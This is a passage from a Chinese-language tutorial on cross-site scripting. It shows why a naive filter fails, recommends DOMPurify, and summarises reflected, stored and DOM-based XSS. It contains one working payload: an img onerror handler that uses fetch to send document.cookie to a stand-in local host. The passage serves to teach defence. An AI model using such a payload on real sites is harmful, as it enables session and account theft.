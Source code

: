 但是这就足够安全了吗？非也，请看下面的输入：

```html
<img src="x" onerror="fetch(`http://localhost:4000/cookies?cookie=${document.cookie}`)">
```

恶意脚本依然在 onerror 回调中被触发了！

#### 防御方案

这里推荐使用 [DOMPurify][] 库对用户的输入进行过滤，然后再使用 innerHTML 插入到 DOM 中。


## 总结

反射型 XSS 攻击的手段就是诱导用户点击，这种攻击是一次性的，用户点击就中招，不点就没事，危害性不如存储型的大，但是小白用户很容易被盗号。

存储型 XSS 攻击范围广，受害面积大，且不容易及时发现和排查，一定要多加小心，对于用户输入的任何内容都不要完全信任，对于动态渲染的文本一定要进行转义。

DOM 型 XSS 攻击随着单页面应用普及和流行愈发常见，因为在单页面应用中 JS 经常操作 DOM，而 DOM 型 XSS 攻击就是利用了浏览器解析机制，因此很容易触发 DOM 型 XSS 攻击。不过好在大部分前端框架，例如 Vue、Angular 都内置 DOM 型 XSS 攻击的防御机制。


[dom-based]: https://www.netsparker.com/blog/web-security/dom-based-cross-site-scripting-vulnerability
[xss]: https://www.netsparker.com/blog/web-security/cross-site-scripting-xss
[innerHTML]: https://developer.mozilla.org/zh-CN/docs/Web/API/Element/innerHTML
[DOMPurify]: https://github.com/cure53/DOMPurify

